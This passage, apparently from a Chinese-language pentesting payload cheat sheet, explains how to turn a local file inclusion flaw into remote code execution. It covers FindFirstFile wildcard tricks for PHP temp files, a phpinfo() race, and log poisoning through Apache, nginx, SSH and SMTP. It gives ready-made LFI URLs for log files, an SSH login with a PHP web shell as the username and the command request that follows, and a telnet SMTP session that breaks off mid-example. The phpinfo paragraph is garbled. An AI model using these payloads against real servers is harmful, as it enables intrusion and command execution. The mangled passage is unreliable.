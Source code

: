 `FindFirstFile`允许在Windows上的LFI路径中使用掩码（`<<` 作为 `*` 和 `>` 作为 `?`）。掩码本质上是一个搜索模式，可以包括通配符字符，允许用户或开发者基于部分名称或类型搜索文件或目录。在FindFirstFile的上下文中，掩码用于过滤和匹配文件或目录的名称。

- `*`/`<<` : 代表任意字符序列。
- `?`/`>` : 代表任意单个字符。

上传一个文件，它应该存储在临时文件夹`C:\Windows\Temp\`中，生成类似`php[A-F0-9]{4}.tmp`的名称。然后要么暴力破解65536个文件名，要么使用通配符字符，例如：`http://site/vuln.php?inc=c:\windows\temp\php<<`

## 通过phpinfo()实现从LFI到RCE

PHPinfo()显示任何变量的内容，如**𝐺𝐸𝑇∗∗、∗∗*G**ET*∗∗、∗∗_POST**和**$_FILES**。

> 通过对PHPInfo脚本进行多次上传帖子，并仔细控制读取操作，可以检索临时文件的名称，并向LFI脚本发出请求，指定临时文件名。

使用脚本phpInfoLFI.py

研究来自https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf

## 通过控制日志文件实现从LFI到RCE

只需通过向服务（Apache、SSH等）发起请求，将您的PHP代码追加到日志文件中，并包含日志文件即可。

```powershell
http://example.com/index.php?page=/var/log/apache/access.log
http://example.com/index.php?page=/var/log/apache/error.log
http://example.com/index.php?page=/var/log/apache2/access.log
http://example.com/index.php?page=/var/log/apache2/error.log
http://example.com/index.php?page=/var/log/nginx/access.log
http://example.com/index.php?page=/var/log/nginx/error.log
http://example.com/index.php?page=/var/log/vsftpd.log
http://example.com/index.php?page=/var/log/sshd.log
http://example.com/index.php?page=/var/log/mail
http://example.com/index.php?page=/var/log/httpd/error_log
http://example.com/index.php?page=/usr/local/apache/log/error_log
http://example.com/index.php?page=/usr/local/apache2/log/error_log
```

### 通过SSH实现RCE

尝试使用PHP代码作为用户名通过SSH登录到盒子`<?php system($_GET["cmd"]);?>`。

```powershell
ssh <?php system($_GET["cmd"]);?>@10.10.10.10
```

然后在Web应用程序中包含SSH日志文件。

```powershell
http://example.com/index.php?page=/var/log/auth.log&cmd=id
```

### 通过邮件实现RCE

首先使用开放的SMTP发送电子邮件，然后包含位于`http://example.com/index.php?page=/var/log/mail`的日志文件。

```powershell
root@kali:~# telnet 10.10.10.10. 25
Trying 10.10.10.10....
Connected to 10.10.10.10..
Escape character is '^]'.
220 straylight ESMTP Postfix (Debian/GNU)
helo ok
250 straylight
mail from: mail@example.com
250 2.1.0 Ok
rcpt to: root
250 2.1.5 Ok
data
```